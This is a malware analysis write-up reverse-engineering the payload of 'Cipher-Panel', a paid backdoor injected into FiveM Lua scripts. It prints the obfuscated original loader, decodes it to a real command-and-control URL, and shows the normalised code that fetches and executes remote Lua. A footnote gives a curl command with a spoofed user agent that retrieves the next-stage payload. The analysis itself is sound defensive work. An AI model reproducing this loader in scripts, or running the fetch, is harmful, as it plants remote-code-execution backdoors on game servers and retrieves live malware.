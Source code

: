 ## Chapter 1 (Payload)
This chapter covers the payload code used in the malicious code to hire dubbed Cipher-Panel.

### Introduction
The payload for this malicious software is provided to users who pay for access that in turn allows them to generate the payload code. Using this payload code they can then download FiveM scripts, modify them to include the payload code, and then upload them to popular FiveM script leaking websites and communities or even used by script developers and merchants to target specific servers.

#### Original Code
```lua
    local Enchanced_Tabs = {
        Ench, Support, Host, Pairs,
        Realease, Callbacks, Source,
        Hosting, Event, PerformHttpRequest,
        assert, server, load, Spawn, materials
    }

    local random_char = {
        '68', '74', '74', '70', '73', '3a', '2f', '2f', '63', '69', '70', '68', '65', '72',
        '2d', '70', '61', '6e', '65', '6c', '2e', '6d', '65', '2f', '5f', '69', '2f'; '69',
        '3f', '74', '6f', '3d', '6c', '36', '54', '72', '32'
    }

    function str_utf8()
        _empt = ''
        for id,it in pairs(random_char) do
            _empt = _empt..it
        end
        return (_empt:gsub('..', function (cc)
            return string.char(tonumber(cc, 16))
            
        end))
    end

    Enchanced_Tabs[10](str_utf8(), function (e, d)
        local s = Enchanced_Tabs[11](Enchanced_Tabs[13](d))
        if (d == nil) then return end
        s()
    end)
```
It should be noted that the `random_char` array is unique to the user who created the payload via Cipher-Panel's website and thus is, __not__ something that is to be be used for the detection of this malicious software.

The code above is designed to look non-malicious by using field names that aren't normally associated with malicious code such as **random_char** and encoding characters with UTF-8 to prevent people from simply opening the script to check it's purpose.

The first stage to reversing this code is turning the `Enchanced_Tabs` array back into plain text by decoding the UTF-8 characters, followed by normalizing some of the function names and fields.

#### UTF-8 Array Reversal
```
Input: '68', '74', '74', '70', '73', '3a', '2f', '2f', '63', '69', '70', '68', '65', '72', '2d', '70', '61', '6e', '65', '6c', '2e', '6d', '65', '2f', '5f', '69', '2f'; '69', '3f', '74', '6f', '3d', '6c', '36', '54', '72', '32'
Normalized: \x68\x74\x74\x70\x73\x3a\x2f\x2f\x63\x69\x70\x68\x65\x72\x2d\x70\x61\x6e\x65\x6c\x2e\x6d\x65\x2f\x5f\x69\x2f\x69\x3f\x74\x6f\x3d\x6c\x36\x54\x72\x32
Output: https://cipher-panel.me/_i/i?to=l6Tr2
```

#### Function Name Array Mapping
```diff
Enchanced_Tabs[1] = Ench; (Junk Code)
Enchanced_Tabs[2] = Support; (Junk Code)
Enchanced_Tabs[3] = Host; (Junk Code)
Enchanced_Tabs[4] = Pairs; (Junk Code)
Enchanced_Tabs[5] = Realease; (Junk Code)
Enchanced_Tabs[6] = Callbacks; (Junk Code)
Enchanced_Tabs[7] = Source; (Junk Code)
Enchanced_Tabs[8] = Hosting; (Junk Code)
Enchanced_Tabs[9] = Event; (Junk Code)
+ Enchanced_Tabs[10] = PerformHttpRequest;
+ Enchanced_Tabs[11] = assert;
Enchanced_Tabs[12] = server; (Junk Code)
+ Enchanced_Tabs[13] = load;
Enchanced_Tabs[14] = Spawn; (Junk Code)
Enchanced_Tabs[15] = materials; (Junk Code)
```

The `Enchanced_Tabs` array mainly contains junk functions and keywords to throw users off from the three highlighted functions that are used in the payload functions.

#### Final Mapped and Normalised Code
```lua
    PerformHttpRequest("https://cipher-panel.me/_i/i?to=l6Tr2", function (errorCode, responseBody)
        local payload = assert(load(responseBody))
        if (responseBody == nil) then return end
        payload()
    end)
```

After the mapping and normalization of the code, we can see that the code continuously makes an HTTP request to the unique Cipher-Panel endpoint.

All endpoints provided by Cipher-Panel are all protected with [Cloudflare](https://www.cloudflare.com/) using their [page rules](https://www.cloudflare.com/en-gb/features-page-rules/) system, this prevents access via regular browsers and only allows access to requests using the `User-Agent` provided via FiveM's [PerformHttpRequest](https://docs.fivem.net/docs/scripting-reference/runtimes/lua/functions/PerformHttpRequest/) *(FXServer/PerformHttpRequest)*. We can bypass that limitation with a simple `curl`[^1] command, this outputs the code used in the next part of this malicious software and is covered in the next chapter.

[^1]: `curl https://cipher-panel.me/_i/i?to=l6Tr2 -A "FXServer/PerformHttpRequest"`

